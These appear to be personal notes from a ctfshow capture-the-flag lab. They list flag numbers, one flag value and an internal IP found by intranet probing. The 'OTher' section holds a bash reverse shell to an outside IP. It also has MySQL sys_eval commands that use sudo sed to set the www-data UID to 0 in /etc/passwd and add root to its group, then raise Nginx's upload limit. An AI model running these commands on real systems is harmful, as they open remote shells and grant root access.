 

## flag_665



## flag_666



## flag_667

flag_667=ctfshow{503a075560764e3d116436ab73d7a560}

172.2.82.5 3000

内网探测时看到的

## flag_668



## flag_669



## flag_670




















## OTher

sh -i >& /dev/tcp/150.109.79.99/8888 0>&1



### 修改Nginx配置 扩大上传大小

```
SELECT sys_eval("sudo sed -i 's/:82:82:/:82:0:/g' /etc/passwd");
SELECT sys_eval("sudo sed -i 's/www-data:x:82:www-data,nginx/www-data:x:82:www-data,nginx,root/g' /etc/group");


SELECT sys_eval("sudo sed -i '/echo index.php;/a\client_max_body_size 200M;' /etc/nginx/nginx.conf ");
sudo nginx -t ;                     #刷新
sudo nginx -s reload ;              #重新加载
```
